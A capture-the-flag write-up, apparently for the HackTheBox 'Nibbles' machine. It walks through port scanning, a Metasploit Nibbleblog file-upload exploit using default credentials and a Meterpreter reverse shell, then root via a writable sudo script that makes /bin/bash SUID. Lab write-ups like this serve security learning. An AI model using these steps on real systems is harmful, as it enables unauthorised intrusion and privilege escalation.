 # Nibbles

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.144    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:33 EDT
Nmap scan report for 10.129.85.144
Host is up (0.0093s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### NIbbleblog RCE

Visiting port 80 reveals nothing, until you read the comments:

```markup
$ curl http://10.129.85.144/                
<b>Hello world!</b>














<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

<figure><img src="../../../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

Based on the Nibbleblog Github Repo (which is no longer continued), I found that we can access `/README` to view the version used.

```
$ curl http://10.129.85.144/nibbleblog/README
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
<TRUNCATED>
```

There are RCE exploits for this, and I'm going to use`msfconsole` to exploit it. In specific, I want to use the `multi/http/nibbleblog_file_upload` module.&#x20;

```
set RHOSTS <ip>
set LHOST <my ip>
set TARGETURI /nibbleblog
set USERNAME admin # default creds
set PASSWORD nibbles # default creds
exploit
```

This would spawn us a Meterpreter shell.

<figure><img src="../../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Writeable Sudo Script

We can check `sudo` privileges:

```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

There is no script there, so we can create our own that makes `/bin/bash` an SUID binary.

```
$ sudo /home/nibbler/personal/stuff/monitor.sh             
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```

Then, we can easily get `root`.&#x20;

<figure><img src="../../../.gitbook/assets/image (167) (2).png" alt=""><figcaption></figcaption></figure>
